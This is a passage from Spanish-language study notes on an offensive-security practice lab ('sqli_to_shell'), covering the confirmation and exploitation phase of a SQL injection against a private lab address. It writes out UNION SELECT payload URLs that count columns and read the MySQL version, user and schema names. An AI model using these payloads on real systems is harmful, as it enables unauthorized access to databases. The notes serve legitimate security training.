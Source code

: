       ![configuracion_get_all_sql](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/configuracion_get_all_sql.png)

4. Resultado:

   ​		![resultado_configuracion_get_all_sql](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/resultado_configuracion_get_all_sql.png)

   La debilidad detectada en el código es accesible y explotada. Hay vulnerabilidad.

### Función Show

1. Al intentar explotar la función show no se ha obtenido ningún tipo de comentario o de error al intentar realizar una sql injection. Por facilidad, se opta por seguir con la explotación del sql injection en el fichero cat



## Fase 3: Explotación de la SQLi

1. Identificación del gestor de la Database

   - En el erro SQL obtenido anteriormente se informa que es Msyql

2. Número de columnas

   - http://172.16.113.157/cat.php?id=2+ORDER+BY+5

     ![columnas_5](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/columnas_5.png)

   - http://172.16.113.157/cat.php?id=2+ORDER+BY+4

     ![columnas_4](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/columnas_4.png)

   - Hay 4 columnas

3. Identificación de los tipos de datos de las columnas

   - http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2CNULL%2CNULL%2C%27A%27

4. Identificación de la versión

   - http://172.16.113.157/cat.php?id=2+UNION+SELECT+VERSION%28%29%2C%40%40VERSION%2CNULL%2CNULL

   ![version](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/version.png)

5. Usuario de ejecución

   - http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2CUSER%28%29%2CNULL%2CNULL

   ![](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/user.png)

6. Información database

   - http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2Cschema_name%2CNULL%2CNULL+FROM+information_schema.schemata

   ![database](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/sqli_to_shell/pruebas/database.png)
